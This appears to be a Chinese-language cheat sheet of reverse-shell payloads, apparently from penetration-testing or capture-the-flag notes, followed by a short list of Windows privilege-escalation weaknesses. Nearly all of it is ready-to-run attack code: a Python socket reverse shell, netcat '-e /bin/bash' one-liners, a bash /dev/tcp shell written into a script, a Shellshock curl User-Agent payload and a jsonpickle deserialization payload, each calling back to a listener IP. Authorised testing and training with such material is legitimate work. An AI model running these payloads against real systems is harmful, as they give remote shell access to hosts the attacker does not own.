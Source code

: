 ## python
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.110.128",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
### 第二版
```
import sys import os os.system("nc -e /bin/bash 192.168.0.108 1234")
```

### 第三版
写入 python 脚本
```
echo 'import os; os.system("/bin/nc 10.10.16.2 8889 -e /bin/bash")' > /opt/tmp.py
```
## 写入 shell
```
echo 'bash -i >& /dev/tcp/192.168.61.135/4444 0>&1' > 脚本名
```

### shellshock 破壳漏洞

```
curl -A "() { :; }; /bin/bash -c 'nc 192.168.20.128 8888 -e /bin/sh'" http://192.168.20.133/cgi-bin/underworld
curl将bash命令作为特殊请求的User-Agent进行传递，实际上nc反弹shell的命令是由Bash执行的
```


## json 反弹 shell
```
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["nc -nv 169.254.5.136 8888 -e /bin/bash"]}, null, null, null]}
```
# Windows

## 一些弱点：

Windows 服务或计划任务上的错误配置
    
分配给我们帐户的过多权限
    
Vulnerable software  易受攻击的软件

缺少 Windows 安全补丁

## 遇到无人值守

此类安装需要使用管理员帐户来执行初始设置
